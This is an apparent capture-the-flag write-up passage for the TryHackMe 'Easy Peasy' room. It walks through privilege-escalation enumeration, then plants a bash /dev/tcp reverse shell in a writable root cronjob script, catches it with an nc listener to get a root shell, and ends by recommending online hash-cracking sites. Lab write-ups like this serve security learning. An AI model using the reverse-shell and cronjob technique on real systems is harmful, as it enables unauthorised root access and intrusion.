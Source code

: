 ## <ins>Priv Escalation Enumeration</ins>

  
`sudo -l`
> nothing 
   
`$find / -perm -u=s -type f 2>/dev/null`
> nothing 
  
`cat /etc/crontab` 
  
→ Check: .mysecretcronjob.sh


<ins>Privesc with cronjob:</ins>  
  
We find the cronjob with /var/www/.mysecretcronjob.sh.  
Place a **reverse shell** with nano.  
  
`bash -i >& /dev/tcp/'my-own-ip'/4444 0>&1`

<ins>Start listener and wait</ins>  
  
`nc -lnvp 4444`  
  
>  
(You can check if the .sh works with ./.mysecretcronjob.sh.  
But it will be only a normal shell cause boring executed it)
  
→ Check: ROOT Shell  
  
`cat /root/root.txt`
Last Task 2.8 with root.txt
  
###    
**Task 2.7 solved**    
### 

>
Summery: For the most of the hash cracking operations at tryhackme or hackthebox
I use the cracking pages at the internet. Because other users can crack the password
before and you saved a lot of time and resources. In any machines you cannot solve
the cracking operation with a specific password list or brute force over a long time.
  
So here are some links for cracking sites:  
  
[Crackstation](https://crackstation.net/)  
[Hash-analyzer](https://www.tunnelsup.com/hash-analyzer/)  
[Cyberchef](https://gchq.github.io/CyberChef/)  
[MD5 hasching](https://md5hashing.net/)  
  
---  
  
[Easypeasylink]: https://tryhackme.com/room/easypeasyctf
